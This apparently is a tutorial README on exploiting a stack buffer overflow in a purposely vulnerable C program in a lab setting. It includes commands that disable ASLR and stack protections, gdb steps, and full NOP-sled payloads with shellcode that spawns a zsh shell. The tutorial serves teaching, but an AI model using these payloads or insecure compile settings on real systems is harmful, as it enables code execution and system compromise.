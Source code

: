 
# Buffer Overflow test Tutorial

This tutorial is based on the Computerphile video, made by Dr. Mike Pound

https://www.youtube.com/watch?v=1S0aBV-Waeo

The tutorial will show you how to trigger and exploit a buffer overflow attack against a custom C program, using Kali Linux 32-bit PAE 2016.1.

Link:
https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/




## disable memory randomization, enable core dumps
http://securityetalii.es/2013/02/03/how-effective-is-aslr-on-linux-systems/
```shell
cat /proc/sys/kernel/randomize_va_space
sudo bash -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
sudo sysctl -p
cat /proc/sys/kernel/randomize_va_space
# verify "0"
ulimit -c unlimited
ulimit -c
# verify "unlimited"
```


## scripts

http://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

[envexec.sh]
```shell
#!/bin/sh

while getopts "dte:h?" opt ; do
  case "$opt" in
    h|\?)
      printf "usage: %s -e KEY=VALUE prog [args...]\n" $(basename $0)
      exit 0
      ;;
    t)
      tty=1
      gdb=1
      ;;
    d)
      gdb=1
      ;;
    e)
      env=$OPTARG
      ;;
  esac
done

shift $(expr $OPTIND - 1)
prog=$(readlink -f $1)
shift
if [ -n "$gdb" ] ; then
  if [ -n "$tty" ]; then
    touch /tmp/gdb-debug-pty
    exec env - $env TERM=screen PWD=$PWD gdb -tty /tmp/gdb-debug-pty --args $prog "$@"
  else
    exec env - $env TERM=screen PWD=$PWD gdb --args $prog "$@"
  fi
else
  exec env - $env TERM=screen PWD=$PWD $prog "$@"
fi
```





[vuln.c]
```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv)
{
	char buffer[500];
	strcpy(buffer, argv[1]);

	return 0;
}
```

## Commands

```shell
# compile the code
gcc -z execstack -fno-stack-protector -mpreferred-stack-boundary=2 -g vuln.c -o vuln

# clean the environment, debug
chmod +x envexec.sh
./envexec.sh -d vuln

# clean the environment, execute exploit
./envexec.sh /root/vuln $(python ...)

# run gdb, load a program to analyze
gdb vuln
```

## GDB commands

```shell
# quit the debugger
quit

# clear the screen
ctrl + l
shell clear

# show debugging symbols, ie. code
list
list main

# show the assemlby code
disas main

# examine information
info os

info functions

info variables

# run the program, with input
run Hello

# run the overflow, seg fault
run $(python -c 'print "\x41" * 508')

# examine memory address
x/200x ($esp - 550)

# confirm overwrite of ebp register
info registers

# find a location, below ESP (stack pointer)
EDI = destination index, string / array copying
ESI = source index, string + array copying

EIP = index pointer, next address to execute
EBP = stack base pointer
ESP = stack pointer, starting in high memory, going down
EDX = data register

# run the overflow, launch a zsh shell
run $(python -c 'print "\x90" * 426 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\x51\x51\x51\x51" * 10')

# examine memory address
x/200x ($esp - 550)

# convert memeory address to little endian
ecx            0xbfffffc0	-1073741888
edx            0xbffffc3a	-1073742790
ebx            0xb7fb8000	-1208254464
esp            0xbffffc40	0xbffffc40
ebp            0x51515151	0x51515151

0xbf ff fa ba
\xba\xfa\xff\xbf


# run the exploit, execut /bin/zsh5
run $(python -c 'print "\x90" * 425 + "\x31\xc0\x83\xec\x01\x88\x04\x24\x68\x2f\x7a\x73\x68\x68\x2f\x62\x69\x6e\x68\x2f\x75\x73\x72\x89\xe6\x50\x56\xb0\x0b\x89\xf3\x89\xe1\x31\xd2\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "\xba\xfa\xff\xbf" * 10')
```



***Stack pointer***

-----------------------------------------------------------------------------------------------------------------------

```c
#include <stdio.h>
#include <stdlib.h>

unsigned long *get_stack_ptr(void) {
  __asm__(
    "mov %rsp, %rax"
  );
}

int main(int argc, char **argv) {
  unsigned long *stack_ptr = get_stack_ptr();

  printf("Size Of Ptr: %d bytes\n", sizeof(unsigned long *));
  printf("Stack Pointer: %llX\n", stack_ptr);

  return 0;
}
```
